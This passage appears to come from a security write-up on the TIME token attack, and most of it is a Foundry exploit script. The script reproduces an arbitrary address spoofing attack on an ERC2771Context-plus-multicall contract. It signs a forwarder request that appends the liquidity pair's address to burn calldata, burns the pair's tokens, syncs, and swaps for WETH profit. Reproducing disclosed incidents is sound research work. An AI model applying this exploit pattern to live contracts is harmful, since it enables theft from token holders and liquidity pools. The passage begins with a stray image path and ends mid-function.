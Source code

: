 OpenZeppelin considers this as an [Arbitrary Address Spoofing Attack](https://blog.openzeppelin.com/arbitrary-address-spoofing-vulnerability-erc2771context-multicall-public-disclosure).

## Exploit

### Reproduce

According to the attack principles mentioned earlier, the vulnerability exploitation script can be constructed as follows.

``` solidity
(addr, privateKey) = makeAddrAndKey("attacker");

function testExploit() public {
    vm.startPrank(addr, addr);
    uint attackBlockNumber = 18730462;
    vm.rollFork(attackBlockNumber);
    deal(address(weth), address(addr), 5 ether);
    uint256 wethBalanceBefore = weth.balanceOf(address(addr));
    emit log_named_decimal_uint("WETH balance before attack", wethBalanceBefore, 18);
    time.approve(address(router), type(uint256).max);
    weth.approve(address(router), type(uint256).max);
    WETHToTIME();

    emit log_named_decimal_uint("Pair TIME balance", time.balanceOf(address(time_weth)), time.decimals());

    // construct calldata
    uint256 burnAmount = time.balanceOf(address(time_weth)) - 1e18;
    bytes memory burnData = abi.encodeWithSelector(ITIME.burn.selector, burnAmount);
    bytes[] memory data = new bytes[](1);
    data[0] = abi.encodePacked(burnData, address(time_weth));
    bytes memory multicallData = abi.encodeWithSelector(ITIME.multicall.selector, data);

    // construct ForwardRequest
    bytes32 TYPEHASH = keccak256("ForwardRequest(address from,address to,uint256 value,uint256 gas,uint256 nonce,bytes data)");
    Forwarder.ForwardRequest memory req = Forwarder.ForwardRequest({
        from: address(addr),
        to: address(time),
        value: 0,
        gas: 5e6,
        nonce: 0,
        data: multicallData
    });
    // construct signature
    bytes32 structHash = keccak256(abi.encode(TYPEHASH, req.from, req.to, req.value, req.gas, req.nonce, keccak256(req.data)));
    bytes32 _CACHED_DOMAIN_SEPARATOR= hex"7ce8d495cdbd0e4deb3abed5528be0aca8dae1c9f4172364ceec32c5051da6b8";
    bytes32 messageHash = ECDSA.toTypedDataHash(_CACHED_DOMAIN_SEPARATOR, structHash);
    (uint8 v, bytes32 r, bytes32 s) =  vm.sign(privateKey, messageHash);
    bytes memory signature = abi.encodePacked(r, s, v);

    forwarder.execute(req, signature);
    time_weth.sync();
    emit log_named_decimal_uint("Pair TIME balance", time.balanceOf(address(time_weth)), time.decimals());

    TIMEToWETH();
    uint256 wethBalanceAfter = weth.balanceOf(address(addr));
    emit log_named_decimal_uint("WETH balance after attack", wethBalanceAfter, 18);
    emit log_named_decimal_uint("Attacker profit", wethBalanceAfter - wethBalanceBefore, 18);
    vm.stopPrank();
```